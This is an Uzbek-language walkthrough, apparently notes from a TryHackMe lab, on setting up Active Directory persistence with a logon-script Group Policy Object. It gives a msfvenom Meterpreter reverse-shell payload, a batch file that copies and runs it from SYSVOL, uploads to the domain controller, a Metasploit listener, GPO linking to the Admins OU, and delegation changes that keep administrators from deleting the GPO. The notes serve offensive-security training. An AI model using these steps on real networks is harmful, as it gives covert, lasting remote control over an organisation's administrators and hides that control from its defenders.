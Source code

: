 
## **Domen darajasida barqarorlik**

GPO orqali barqarorlik o‘rnatishning keng tarqalgan usullari:

1. **Restricted Group Membership** – Bu bizga domen ichidagi barcha hostlarda administrator huquqini beradi.
2. **Logon Script Deployment** – Har safar foydalanuvchi domen hostiga kirganda shell callback (teskari ulanish) olishimizga imkon beradi.

Biz avvalgi *Exploiting AD* bo‘limida Restricted Group Membership’dan foydalanganmiz. Endi esa Logon Script usulini sinab ko‘ramiz. Administratorlar ishlayotgan vaqtda ularga ulanib olish uchun Admins OU (Organizational Unit) ga bog‘langan GPO yaratamiz. Bu GPO admin foydalanuvchi har qanday hostga kirganida shell olishimizni ta’minlaydi.

---

## **Tayyorlash bosqichi**

Birinchi navbatda shell, listener va uni ishga tushiradigan `.bat` fayl yaratamiz.

**1. msfvenom bilan shell exe yaratish:**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe
```

> `<username>` o‘rningizga o‘zingizning nomingizni yozing. Bu boshqa foydalanuvchilar faylini almashtirib yubormaslik uchun kerak.

**2. Batch skript yaratish:**
`<username>_script.bat` faylini yarating:

```bat
copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe
```

Bu skript:

* EXE faylni SYSVOL papkasidan mahalliy `C:\tmp\` ga nusxalaydi
* 20 soniya kutadi
* Shell exe’ni ishga tushiradi.

**3. Fayllarni SYSVOL papkasiga yuklash (SCP orqali):**

```bash
$thm scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
$thm scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/
```

**4. MSF listener ishga tushirish:**

```bash
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445; exploit"
```

---

## **GPO yaratish**

**1. THMWRK1 ga RDP orqali kiring** va `runas` orqali Administrator bo‘lib terminal oching.
**2. MMC ni ishga tushiring**:

* `File -> Add/Remove Snap-in`
* **Group Policy Management** ni qo‘shing.

**3. Admins OU ustida o‘ng tugma -> Create a GPO in this domain, and Link it here**

* Masalan: `<username> - persisting GPO` deb nomlang.
* GPO’ni **Enforced** qiling.

**4. GPO ni tahrirlash:**

* `User Configuration -> Policies -> Windows Settings -> Scripts (Logon/Logoff)`
* **Logon** ustida o‘ng tugma -> Properties -> Scripts -> Add -> Browse
* SYSVOL’dagi `.bat` faylni tanlang.

Endi admin foydalanuvchi har safar tizimga kirganda bizga teskari ulanish keladi.

---

## **Test qilish**

1. Tier 1 admin parolini tiklang.
2. Listener’ni ishga tushiring.
3. THMSERVER1 yoki THMSERVER2 ga RDP qiling.
4. **Sign Out** qiling (Disconnect emas), keyin qayta login qiling.
5. 1 daqiqa ichida MSF konsolida callback olasiz:

```
meterpreter >
```

---

## **Ko‘zdan yashirish**

Barqarorlik ishlayotganini tekshirgach, uni o‘chirib tashlashni murakkablashtiramiz.

1. MMC’da GPO’ni tanlang, **Delegation** bo‘limiga o‘ting.
2. `ENTERPRISE DOMAIN CONTROLLERS` dagi **Edit settings, delete, modify security** huquqlarini olib tashlang.
3. `Authenticated Users` ni o‘chirib tashlang, o‘rniga `Domain Computers` qo‘shing (Read huquqi bilan).

Shundan so‘ng, hatto yuqori huquqli adminlar ham GPO’ni o‘chira olmaydi. U faqat **Domain Controller** mashina akkauntidan foydalanib o‘chirib bo‘ladi.
